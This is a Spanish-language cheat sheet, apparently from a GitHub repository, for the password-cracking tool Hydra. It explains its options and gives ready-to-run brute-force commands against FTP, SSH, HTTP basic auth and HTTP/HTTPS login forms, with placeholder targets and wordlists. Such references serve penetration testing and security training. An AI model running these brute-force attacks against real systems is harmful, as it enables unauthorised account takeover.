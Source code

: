 # Hydra Cheat Sheet

## Opciones

- `-s <port>` : Si el servicio está en un puerto diferente por default.
- `-l` : Especificar un usuario.
- `-L <userfile>` : Leer de un archivo listado de usuarios.
- `-p` : Especificar un password.
- `-P <passwordfile>` : Leer de un archivo listado de passwords.
- `-f` : Detener el ataque al encontrar una coincidencia.
- `-t <#tasks>`: Número de conecciones en paralelo por objetivo.
- `-M <targetsfile>` : Leer de un archivo listado de objetivos.
- `-o <file>` : Guargar el resultado en un archivo.
- `-vV` : Modo verbose, mostrando el inicio de sesión+contraseña para cada intento

#### Conocer los tipos de servicios que se pueden atacar
```
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

## Ejemplos

#### Cracking con Brute Force en FTP Server
```
hydra -t 1 -l admin -P <PATH-TO-PASSWORD.lst> -vV <IP-ADDRESS> ftp
```

#### Cracking con Brute Force en SSH Server
```
hydra -l msfadmin -P <PATH-TO-PASSWORD.lst> -vV <IP-ADDRESS> ssh
```

#### Fuerza bruta usando una wordlist para usuarios y otra para contraseñas e intentar que pase la contraseña en cada usuario de la lista
```
hydra -L <PATH-TO-USER.lst> -P <PATH-TO-PASSWORD.lst> -u -f <IP-ADDRESS> -s <PORT> http-get
```

#### Cracking con Brute Force a un formulario de inicio de sesión por HTTPS (La data de POST esta separada con el ':') y usando un mensaje de password incorrecto
```
hydra -l none -P <PATH-TO-PASSWORD.lst> -f <IP-ADDRESS> https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:F=Incorrect password" -t 64

# Estructura de la data:
/login.php:<USER-PARAMETER>=^USER^&<PASSWORD-PARAMETER>=^PASS^:[F/S]=<FAILED/SUCCESS-STRING>
```

#### Fuerza bruta a un formulario de inicio de sesion por HTTP donde al ingresar una contraseña mal regresa al mismo formulario y eso usarlo como mensaje incorrecto
```
hydra -l admin -P <PATH-TO-PASSWORD.lst> -f <IP-ADDRESS> -s <PORT> http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

#### Fuerza bruta a un formulario de inicio de sesion por HTTP donde al ingresar una contraseña correcta manda un mensaje
```
hydra -l admin -P <PATH-TO-PASSWORD.lst> -f <IP-ADDRESS> -s <PORT> http-post-form "/:username=^USER^&password=^PASS^:S=Dashboard"
```

#### Ataque de Fuerza Bruta a una Authenticacion Basica que se encuentre en un directorio web
```
hydra -l admin -P <PATH-TO-PASSWORD.lst> -s <PORT> -f <IP-ADDRESS> http-get /<DIRECTORY>
```

#### Cracking con Brute Force en WEB Login Server, enviando 'usuario:password'
```
hydra -C <WORDLIST-WITH-COLON-SEPARATED-FORMAT> <IP-ADDRESS> https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"

Archivo credentials.txt:
albert:password
juan:mypassword
beto:qwerty
.
.
.
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)